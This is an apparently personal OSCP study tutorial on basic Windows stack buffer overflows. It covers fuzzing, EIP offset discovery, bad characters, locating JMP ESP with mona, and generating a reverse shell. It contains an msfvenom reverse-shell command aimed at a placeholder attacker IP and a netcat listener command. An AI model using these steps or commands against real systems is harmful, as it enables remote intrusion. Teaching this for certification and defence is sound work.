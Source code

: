 ```yaml
---
title:  "Basic Buffer Overflows"
header: "Basic Buffer Overflows"
categories: 
  - Tutorial
tags:
  - Hacking
---
```


A lot can be said about buffer overflows and they are perhaps the most daunting part of attempting the OSCP for most. However, as you&#39;ll find in most of your offensive hacking endeavors, it&#39;s all about experimentation and tweaking your process. Below are the notes I used to successfully exploit several applications (given they didn&#39;t have standard security such as ASLR or DEP) and serves as a good example of understanding a basic buffer overflow.

_I&#39;ll go and make this look pretty and add pictures later but this should get you started in the meantime_

**Fuzz the application**

If you don&#39;t have access to the code and there aren&#39;t any publicly disclosed exploits then another viable option is to fuzz the application and see what happens. Fuzzing is essentially the act of sending malformed or unintended data to an application and watching to see if it behaves abnormally such as crashing. Keep in mind that just because you cause an application to crash doesn&#39;t necessarily mean that it&#39;s vulnerable but it should key you into paying closer attention to it.

- Run the application
- Attach the debugger (Immunity is a good option) to the application
- Run your fuzzer
- Write a script to replicate the crash (this is where you&#39;ll set the size of the buffer)

**Find out which part of the buffer overwrites EIP**

Explain EIP and ESP

Explain static tree analysis

- Create a unique string that&#39;s the size of your buffer (pattern\_create.rb is great for this, comes with Kali!)
  - Usage: pattern\_create.rb 2200 &lt;-- size of your buffer
- Place the output inside your script
- Run script and locate EIP&#39;s bytes
- Use pattern\_offset.rb to find the position from your pattern\_create script
  - Usage: pattern-offset.rb 13731415 &lt;--EIP value from crash
- It should return your location (something like 1403). This means that on the 1404
# th
 byte is where you can direct EIP. A good way to test this is to send a certain amount of A&#39;s, B&#39;s, and C&#39;s to see where the values are located
  - Example: buffer = &quot;A&quot;\*1403 + &quot;B&quot;\*4 + &quot;C&quot;\*793 &lt;----the last part is to fulfill the orginial 2200 buffer

**(Optional) Increase the buffer size to allow room for shellcode**

The average size for shellcode is around 350-400 so you&#39;ll need to have roughly that much space left in the buffer. If you don&#39;t have enough then it&#39;s a good idea to increase the padding on your buffer either before or after the EIP director bytes.

**Discover bad characters**

To me this can be the most frustrating part of the process and often where people slip up. It&#39;s not so much that it&#39;s difficult but rather just tedious and attention to detail can go a long way. The purpose in discovering bad characters is to ensure that our shellcode doesn&#39;t get modified (truncated, character replaced, terminated). Null values and carriage returns are notoriously bad characters.

- Place the below character listing in your fuzzer
- Run the fuzzer
- Look at memory location of ESP
- Discover where the increments are broken and/or malformed
- Remove the character from the buffer and continue until you&#39;ve completed them all

**Redirect EIP**

When the application starts each time you&#39;ll notice that your pointers are at different locations. To ensure that we always hit our shellcode, we&#39;ll need a solid/static location with each restart. There are a couple of requirements in this instance (this is just a basic example). Needs to be readable and executable and can&#39;t have DEP or ASLR enabled. A good place to look is any accompanying DLL&#39;s with the application. A good tool to help discover potential modules is mona.py, which once again comes with Kali.

- Once you&#39;ve found a solid module, you&#39;ll want to search for JMP ESP&#39;s within immunity
  - Search &gt; Sequence of Commands &gt; &quot;push esp (next line) retn&quot;
  - Search for jmp esp in the whole DLL
  - If you can&#39;t find one then the nasm\_shell command is FFE4 and you should search for that using mona.py
    - Usage: !mona find –s &quot;\xff\xe4&quot; –m &lt;vulnerable module&gt;
  - Test and place the location within your fuzzer

**Generate Shellcode**

Your shell code can be just about anything malicious that you want to do on the asset, but its typically used for returning a shell (but don&#39;t forget about other options like adding users, altering data, etc.,.). A basic tool to help with generating shellcode is msfvenom which is part of the Metasploit framework.

- In our example we&#39;re going to use a reverse shell and encode it with shikata\_ga\_nai (I highly recommend to explore some of the other encoders as they may be the only options with your bad characters combination)
  - Usage:  msfvenom -p windows/shell\_reverse\_tcp LHOST=&lt;ATTACKING\_IP&gt; LPORT=&lt;PORT NUMBER&gt; EXITFUNC=thread -f c –e x86/shikata\_ga\_nai -b &quot;&lt;BAD CHARACTERS&gt;
- Make note of the size of your shellcode as you&#39;ll need to account for it and ensure that you have the proper space
- Within your fuzzer, place a few NOP&#39;s (\x90) before the shellcode to ensure it has enough room to decode and it won&#39;t trip over itself

**Exploit**

You&#39;re ready to fire off your exploit! I recommend setting a breakpoint at the JMP ESP address to verify if the shellcode gets executed

- Set up a listener on the port number that you chose
  - Usage: nc –lvp &lt;PORT NUMBER&gt;
- Fire off your script and if everything works right you should be presented with a reverse shell from your target
